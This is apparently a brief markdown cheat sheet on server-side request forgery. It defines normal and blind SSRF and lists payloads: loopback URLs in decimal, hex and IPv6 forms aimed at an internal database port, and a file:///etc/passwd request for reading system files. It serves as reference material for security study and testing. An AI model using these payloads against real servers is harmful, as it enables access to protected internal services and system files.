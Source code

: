 # Server-side Request Forgery (SSRF)
SSRF is a vulnerability in web applications whereby an attacker can make further HTTP requests through the server. An attacker can make use of this vulnerability to communicate with any internal services on the server's network which are generally protected by firewalls.

	Types of SSRF
- normal SSRF where data is returned to the attacker's screen
- Blind SSRF where an SSRF occurs, but no information is returned to the attacker's screen.

<!-- -->

			Payloads
## Basic
`http://127.0.0.1:3306`
`http://0x7f000001:3306`
`http://2130706433:3306`

## IPv6
`http://:::3306`
`http://[::]:3306`

## Reading files
`file:///etc/passwd`